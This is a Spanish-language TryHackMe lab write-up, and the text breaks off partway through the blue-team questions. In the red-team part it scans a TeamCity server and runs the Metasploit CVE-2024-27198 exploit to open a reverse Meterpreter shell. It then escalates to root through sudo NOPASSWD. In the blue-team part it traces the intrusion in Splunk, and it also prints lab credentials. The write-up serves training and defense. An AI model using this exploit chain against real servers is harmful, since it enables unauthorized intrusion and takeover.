# 1. Introducción

Trabajas como Analista de Ciberseguridad (Respuesta a Incidentes) en el Centro de Operaciones de Seguridad (SOC) de Tonatiuh qualo, un Proveedor de Servicios de Seguridad Gestionados (MSSP) de primer nivel. Tu equipo se encarga de monitorizar, detectar y responder a las ciberamenazas que acechan a la infraestructura de sus clientes.

<p align="center">
  
</p>

Esta mañana, tu gerente de incidentes te ha asignado un ticket de máxima prioridad. El departamento de IT de uno de sus clientes principales ha enviado una solicitud urgente de investigación tras detectar anomalías en uno de sus servidores críticos.

<div style="border-left: 3px solid #444444; padding-left: 12px;">

**De**: Dpto. de IT - Operaciones de Infraestructura

**Para**: SOC Incident Response - Tonatiuh qualo

**Asunto**: URGENTE - Archivos sospechosos y posible Ransomware en Servidor

*Equipo de Tonatiuh qualo*,

*Necesitamos su asistencia inmediata. Nuestro servicio de monitorización externa acaba de notificarnos que múltiples archivos confidenciales, pertenecientes a los directorios de usuarios de nuestro servidor principal, han sido publicados y exfiltrados en un foro de la Dark Web.*

*Actualmente, el servidor en cuestión está encendido y parece funcionar correctamente en cuanto a rendimiento operativo, lo que nos indica que la intrusión original pasó completamente desapercibida en su momento.*

*Nos preocupa enormemente que la amenaza inicial haya dejado puertas traseras y siga activa dentro de nuestra red. Necesitamos que realicen un análisis forense exhaustivo de los registros históricos del sistema en Splunk para determinar exactamente cómo lograron entrar, qué ocurrió y cerrar cualquier brecha persistente.*

</div>

## Misión Analista

Tu gerente te ha proporcionado acceso al SIEM corporativo (Splunk), donde ya se han ingerido todos los logs del servidor afectado (Sysmon, eventos de seguridad de Windows y tráfico de red).

Dado que el daño en los archivos ya es visible, nos encontramos en un escenario claro de post-explotación. Tu labor como analista forense es examinar el servidor e identificar las huellas del atacante.

Tus objetivos para este laboratorio son:

- **Analizar** los eventos en Splunk para reconstruir la línea de tiempo del incidente.
- **Identificar el malware**: Descubrir qué proceso o binario fue el responsable de modificar las extensiones de los archivos.
- **Rastrear las acciones post-explotación**: Determinar qué comandos ejecutó el atacante una vez dentro del sistema y si logró establecer algún mecanismo de persistencia.
- Elaborar el Informe de Hallazgos: Redactar un reporte técnico claro detallando el vector de ataque y las recomendaciones de mitigación para el cliente.

---

### URL Defang

```bash
hxxps[://]tryhackme[.]com/jr/25FOAP7810195046037_Tonatiuh_qualo_mf0488
```


---

## Contenido
- [2. Red Team](#2-red-team)
- [3. Blue Team](#3-blue-team)
- [Analizando el incidente](#analizando-el-incidente)
- [5. Detección del incidente](#5-detección-del-incidente)
- [Informe Final Auditoría de Seguridad](#informe-final-auditoría-de-seguridad)

---

# 2. Red Team

Para atrapar a un cibercriminal, primero debes entender cómo opera. La dirección de **Nebula Inc.** ha firmado las Reglas de Enfrentamiento (RoE) y ha autorizado a nuestro equipo en **Tonatiuh** qualo para realizar una prueba de explotación activa y ofensiva contra su servidor de producción.

Durante esta fase, dejarás temporalmente tu puesto en el **SOC**, te pondrás el "sombrero negro" y actuarás como el atacante. Vamos a recrear la intrusión para descubrir de primera mano las debilidades estructurales del sistema.

<p align="center">
  
</p>

## Objetivo Final

El propósito de esta fase no es solo "hackear por hackear". El objetivo real es comprender la cadena del ataque para que, cuando pases a la fase defensiva (Blue Team), sepas exactamente qué estás buscando.

### Regla de Oro del Red Team:

Un atacante silencioso no deja notas, pero un buen auditor documenta cada paso.

**Anota todos los comandos que ejecutes, los exploits que utilices y toma capturas de pantalla de tus accesos**. Necesitarás esta información técnica (tu WriteUp) como evidencia vital para redactar tu Informe Final de Auditoría.

*¡Prepara tu terminal, despliega tus herramientas ofensivas y que comience la intrusión!*

---

# Red Team

Establecemos conexión con la **VM** de **THM**..

Comprobamos conexión:

```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 4 10.130.185.84                     
PING 10.130.185.84 (10.130.185.84) 56(84) bytes of data.
64 bytes from 10.130.185.84: icmp_seq=1 ttl=62 time=39.2 ms
64 bytes from 10.130.185.84: icmp_seq=2 ttl=62 time=31.8 ms
64 bytes from 10.130.185.84: icmp_seq=3 ttl=62 time=32.6 ms
64 bytes from 10.130.185.84: icmp_seq=4 ttl=62 time=31.8 ms

--- 10.130.185.84 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 31.775/33.830/39.177/3.102 ms
```

Realizamos un scan con `Nmap` para ver qué servicios y puertos estan abiertos.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -p- 10.129.157.89
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-22 07:01 EDT
Nmap scan report for 10.129.157.89
Host is up (0.038s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
44053/tcp open  unknown
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

**Scan profundo**: Para detección de versiones y scripts:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p- 10.129.157.89
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-22 07:02 EDT
Nmap scan report for 10.129.157.89
Host is up (0.038s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:6d:30:2f:35:99:47:dc:85:98:63:9e:2f:05:6d:1c (RSA)
|   256 9c:51:ad:13:f5:f4:2d:86:31:2f:22:fe:8c:c7:b6:36 (ECDSA)
|_  256 28:cf:0c:59:67:96:3c:36:c3:3c:62:a1:e4:a2:93:88 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
44053/tcp open  java-rmi Java RMI
50000/tcp open  http     Apache Tomcat (language: en)
| http-title: Log in to TeamCity &mdash; TeamCity
|_Requested resource was /login.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.81 seconds
```

Después de realizar el scan, podemos ver:

| Puerto | Estado | Servicio | Versión |
| :---: | :---: | :---: | :--- |
| 22     | open   | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 |
| 80     | open   | http     | Apache httpd 2.4.41 |
| 44053  | open   | java-rmi | Java RMI (comunicación interna TeamCity) |
| 50000  | open   | http     | Apache Tomcat  **TeamCity** |

- **Puerto 80**: Página estática de mantenimiento y sin contenido.
- **Puerto 50000**: Panel de login de **JetBrains TeamCity**.

## Posibles vectores de ataque



Ahora que tenemos identificados los puertos y sus posibles vectores de ataque, podríamos intentar la explotación por cualquiera de ellos.

Comenzaremos por el **puerto 50000 (TeamCity)**, el resto de vectores (SSH, HTTP y RMI) los analizaremos más adelante.

Accedemos al puerto `50000` via `http`:



Versión identificada en **TeamCity 2023.11.3 (build 147512)**

## Identificación de vulnerabilidad puerto:50000

Investigamos las posibles CVE asociadas a **TeamCity 2023.11.3**. 

Se han identificado dos vulnerabilidades críticas publicadas en marzo de 2024:

| CVE | Tipo | CVSS | Descripción |
| :---: | :--- | :---: | :--- |
| [CVE-2024-27198](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-27198) | Authentication Bypass | 9.8 | Acceso administrativo sin credenciales |
| [CVE-2024-27199](https://nvd.nist.gov/vuln/detail/cve-2024-27199) | Path Traversal | 7.3 | Acceso a rutas restringidas del servidor |

Ambas afectan a versiones anteriores a **2023.11.4**. Nuestro target (2023.11.3) es vulnerable.

Vector de ataque seleccionado: **CVE-2024-27198**: Permite control total sobre TeamCity sin autenticación.

---

## Buscamos Metasploit

Primero buscaremos con `searchsploit` 
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit teamcity
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
JetBrains TeamCity 2018.2.4 - Remote Code Execution                                                                                                                                                                                                                                       | java/remote/47891.txt
JetBrains TeamCity 2023.05.3 - Remote Code Execution (RCE)                                                                                                                                                                                                                                | java/remote/51884.py
JetBrains TeamCity 2023.11.4 - Authentication Bypass                                                                                                                                                                                                                                      | multiple/webapps/52411.py
TeamCity < 9.0.2 - Disabled Registration Bypass                                                                                                                                                                                                                                           | multiple/remote/46514.js
TeamCity Agent - XML-RPC Command Execution (Metasploit)                                                                                                                                                                                                                                   | multiple/remote/45917.rb
TeamCity Agent XML-RPC 10.0 - Remote Code Execution                                                                                                                                                                                                                                       | php/webapps/48201.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No results
```

Buscamos con `msfconsole`:

```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole -q -x "search teamcity"

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   auxiliary/scanner/teamcity/teamcity_login                 .                normal     No     JetBrains TeamCity Login Scanner
   1   exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793  2023-09-19       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   2     \_ target: Windows                                      .                .          .      .
   3     \_ target: Linux                                        .                .          .      .
   4   exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   5     \_ target: Java                                         .                .          .      .
   6     \_ target: Java Server Page                             .                .          .      .
   7     \_ target: Windows Command                              .                .          .      .
   8     \_ target: Linux Command                                .                .          .      .
   9     \_ target: Unix Command                                 .                .          .      .
   10  exploit/multi/misc/teamcity_agent_xmlrpc_exec             2015-04-14       excellent  Yes    TeamCity Agent XML-RPC Command Execution
   11    \_ target: Windows                                      .                .          .      .
   12    \_ target: Linux                                        .                .          .      .


Interact with a module by name or index. For example info 12, use 12 or use exploit/multi/misc/teamcity_agent_xmlrpc_exec
After interacting with a module you can manually set a TARGET with set TARGET 'Linux'
```

Tanto `searchsploit` como `msfconsole` confirman exploits específicos para **CVE-2024-27198** (`multiple/webapps/52411.py` y `exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198`), este último con rango *excellent* y soporte para target Linux, coincidiendo con nuestro vector seleccionado y el SO del servidor.

## Explotación con Metasploit

Cargamos el módulo correspondiente a la CVE seleccionada:

```bash
msf > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
```

La descripción del módulo (`info`) confirma el mecanismo: el bypass de autenticación permite acceder a la API REST para crear un token (o cuenta) de administrador, que luego se usa para subir un plugin con el payload de Metasploit, logrando RCE no autenticado.

Revisamos las opciones por defecto (`options`): `RPORT` apuntaba al **8111** y `RHOSTS`/`LHOST` estaban vacíos o mal configurados para nuestro entorno, por lo que ajustamos:

```bash
set RHOSTS 10.129.145.75
set RPORT 50000
set LHOST 192.168.131.81
```

El `LHOST` inicial apuntaba a la IP de `eth0` (red local), pero el target solo es alcanzable a través de la VPN de THM (`tun0`), por lo que fue necesario corregirlo para que el callback del reverse shell pueda llegar.

Con la configuración ya consistente, validamos la vulnerabilidad sin explotar todavía (`check`):

```bash
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 10.129.145.75:50000 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
```

El módulo confirma la vulnerabilidad e identifica correctamente la versión y el sistema operativo del target, coincidiendo con los datos obtenidos previamente por `nmap`.

Ejecutamos el exploit:

```bash
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > run
[*] Started reverse TCP handler on 192.168.131.81:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.V1d1WFJDQ1pfWm9mSFUxa0o0NnFzb0kwVEpj.ZmY2YjcwYzMtODIwNy00ZWQ1LTgwMzctNTJjMDUwMDBmMDg3
[*] Uploading plugin: r4FAhePm
[*] Sending stage (58073 bytes) to 10.129.145.75
[*] Meterpreter session 1 opened (192.168.131.81:4444 -> 10.129.145.75:33852) at 2026-06-22 12:26:29 -0400
[*] Deleting the plugin...
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/r4FAhePm' on the target
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_r4FAhePm' on the target
[!] This exploit may require manual cleanup of '/home/ubuntu/.BuildServer/system/caches/plugins.unpacked/r4FAhePm' on the target

meterpreter > 
```

El exploit funciona tal como describe su documentación: crea un token de admin, sube un plugin (`r4FAhePm`) con el payload, y obtiene una sesión de `Meterpreter`.

El módulo intenta limpiar el token y el plugin automáticamente, aunque advierte de rutas que podrían requerir limpieza manual y podrían dejar rastro.

Validamos el contexto de la sesión obtenida:

```bash
meterpreter > getuid
Server username: ubuntu
meterpreter > sysinfo
Computer        : ip-10-129-145-75
OS              : Linux 5.15.0-1066-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```

La sesión se obtiene con el usuario **ubuntu** y no con **root**.

Confirmado también por la ruta `/home/ubuntu/.BuildServer/` como indica salida del exploit, que indica que el servicio **TeamCity** corre bajo ese usuario. 

Será necesario un proceso de escalada de privilegios para alcanzar root.

## Escalada de privilegios

Desde la sesión de Meterpreter, abrimos una shell de sistema para enumerar permisos del usuario `ubuntu`:

```bash
meterpreter > shell
Process 1 created.
Channel 1 created.
sudo -l 
Matching Defaults entries for ubuntu on ip-10-129-145-75:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ubuntu may run the following commands on ip-10-129-145-75:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```

El usuario `ubuntu` tiene permiso `NOPASSWD: ALL`, puede ejecutar cualquier comando como **root** sin necesidad de contraseñavg

Es la vía de escalada más directa posible, sin necesidad de buscar ningún SUID ni exploits de kernel.

Aprovechamos este vector para obtener una shell de root:

```bash
whoami
ubuntu
sudo su
whoami
root
```

Confirmado: escalada de privilegios completada, sesión activa como **root** en el servidor.

## CTF

Listamos el directorio personal del usuario `ubuntu`:

```bash
meterpreter > pwd
/home/ubuntu
meterpreter > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2026-06-22 10:54:21 -0400  .BuildServer
000667/rw-rw-rwx  0     fif   2026-06-22 10:53:26 -0400  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 07:03:22 -0500  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 07:03:22 -0500  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 05:39:13 -0400  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 04:54:40 -0400  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 05:40:18 -0400  .local
100667/rw-rw-rwx  807   fil   2020-02-25 07:03:22 -0500  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 05:59:35 -0400  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 05:38:50 -0400  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 05:39:21 -0400  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 05:46:35 -0400  .wget-hsts
100666/rw-rw-rw-  4829  fil   2024-07-02 10:55:04 -0400  config.log
100666/rw-rw-rw-  38    fil   2024-07-02 06:05:47 -0400  flag.txt

meterpreter > cat flag.txt 
THM{faa9bac345709b6620a6200b484c7594}
```

`flag.txt` tenía permisos `rw-rw-rw-` (lectura para cualquier usuario del sistema), por lo que técnicamente no era necesario escalar a **root** para leerla. Me ha bastado con la shell inicial como `ubuntu` obtenida tras el RCE. No obstante, la escalada de privilegios sigue siendo una vulnerabilidad crítica real del servidor, ya que cualquier usuario con acceso a una shell (autenticado o vía RCE) puede convertirse en root sin contraseña gracias a la configuración `NOPASSWD: ALL` en `sudoers`.


---

# 3. Blue Team

Esta mañana, tu gerente de incidentes te ha asignado un ticket de máxima prioridad. El departamento de IT de uno de sus clientes principales ha enviado una solicitud urgente de investigación tras detectar anomalías en uno de sus servidores críticos.

<div style="border-left: 3px solid #444444; padding-left: 12px;">

**De**: Dpto. de IT - Operaciones de Infraestructura
**Para**: SOC Incident Response - Tonatiuh qualo
**Asunto**: URGENTE - Archivos sospechosos y posible Ransomware en Servidor

*Equipo de Tonatiuh qualo*,

*Necesitamos su asistencia inmediata. Nuestro servicio de monitorización externa acaba de notificarnos que múltiples archivos confidenciales, pertenecientes a los directorios de usuarios de nuestro servidor principal, han sido publicados y exfiltrados en un foro de la Dark Web.*

*Actualmente, el servidor en cuestión está encendido y parece funcionar correctamente en cuanto a rendimiento operativo, lo que nos indica que la intrusión original pasó completamente desapercibida en su momento.*

*Nos preocupa enormemente que la amenaza inicial haya dejado puertas traseras y siga activa dentro de nuestra red. Necesitamos que realicen un análisis forense exhaustivo de los registros históricos del sistema en Splunk para determinar exactamente cómo lograron entrar, qué ocurrió y cerrar cualquier brecha persistente.*

</div>

---

<div style="border-left: 3px solid #444444; padding-left: 12px;">

[TIP]

```bash
Credentials

Only needed if you are using your own machine.

Username: splunk
 
Password: analyst123
 
IP address: MACHINE_IP
 
Connection via: http://MACHINE_IP:8000
```

<div>


---

# Analizando el incidente

<p align="center">
  
</p>

## El cambio de rol: De vuelta al SOC

La fase de emulación de adversarios (Red Team) ha concluido. Ahora sabes exactamente lo frágil que es el servidor de Black Mamba porque tú mismo lograste vulnerarlo. Es hora de quitarte el sombrero negro, ponerte el "sombrero azul" y sentarte en tu consola de analista en Tonatiuh qualo.

## Tu Misión: Triage Inicial y Caza de Amenazas

Para esta primera fase de respuesta a incidentes, el cliente nos ha dado acceso a su instancia de Splunk, donde se centralizan todos los registros (logs) del servidor. Sabemos que hubo una filtración de datos en la Dark Web, pero no sabemos ni cuándo ni cómo empezó el ataque real. Tu objetivo aquí es hacer saltar la primera alarma y encontrar al "Paciente Cero".

---

## Análisis

Nos conectamos a `splunk` vía: `http://10.128.176.37:8000/` 

1. ¿Cómo se llama el host que se está analizando?

> Realizamos una primera búsqueda total de todos los registros dentro de `splunk´
>
> [splunk-hostname](./assets/images/splunk-hostname.png)
> 
> Vemos que el hostname es `brains`

2. ¿Cuántos `sourcetype` de los logs se están analizando?

Para contar cuantos `sourcetype` tenemos, filtramos con: `index=* | stats count by sourcetype`



Como se ve en la imagen tenemos `3 sourcetype`

3. ¿Cuántos eventos generó el `sourcetype` que más eventos tiene?

Aprovechando la imagen anterior, vemos que el máximo de eventos que generó el `sourcetype` son: `3.816`

4. ¿En que año se generaron más eventos?

Para filtrar por logs por el año utilizaremos el método **strftime**: `index=* | eval year=strftime(_time, "%Y") | stats count by year`

Una vez tenemos filtado por año, usamos el método **count** para contar cuantos eventos existen.



Vamos que el año con más eventos totales es: `2024`

5. ¿Cuantos eventos se generaron en ese año?

Aprovechando la misma imagen y filtro, vamos que los eventos totales para el año **2024** es: `4.109`


---

# 5. Detección del incidente

<p align="center">
  
</p>

## Reconstruyendo la Kill Chain

¡Buen trabajo en la detección inicial! Ya tenemos nuestras primeras piezas de evidencia y sabemos qué binarios e IPs estuvieron involucrados. Sin embargo, un hash o una IP aislada no le sirven al CEO de Black Mamba. Necesitamos la historia completa.

## Tu Misión: Análisis Profundo y Línea de Tiempo

En esta tarea, tu objetivo es realizar la correlación de eventos. Debes rastrear los pasos del atacante desde ese primer indicio hasta la exfiltración final y la toma de control del sistema operativo. Vamos a reconstruir la Kill Chain (Cadena de Ataque).

---

## Detección

1. ¿Cómo se llama el usuario que se creó durante la explotación?

Realizamos una primera búsqueda sobre los eventos en `splunk` para buscar el user: `index=* *new user*`

<p align="center">
  
</p>

Vemos que los eventos mostrados, muestran que hay dos usuarios sospechosos (id=11 y id=12) que se crean a sí mismos, lo cual es el comportamiento exacto del exploit `CVE-2024-27198`, algo curioso.

Pero con la anterior búsqueda, no hemos obtenido aún el nombre del usuario creado. Ahora buscaremos por usuarios nuevos creados: `index=* *new user*`

<p align="center">
  
</p>

Hemos encontrado el usuario creado: `eviluser`

2. ¿Cuándo se creó el usuario?

Accedemos a la información del evento:

<p align="center">
  
</p>

Extraemos la fecha de cuando se creó: `Jul  4 22:32:37` 

3. ¿Cuál es su `punct`?

Extraemos el punct: `___::__[]:__:_=,_=,_=,_=//,_=//,_=///`

4. ¿Qué tipo de shell se creó?

En la misma captura del evento, extraemos la shell que se ha creaado: `shell=/bin/bash`

5. ¿Cuál es el nombre del paquete malicioso instalado en el servidor?

Filtramos por el estado de `status installed` para ver los paquetes instalados y luego filtramos por la fecha del evento, que cómo hemos visto antes es el `Jul  4`

<p align="center">
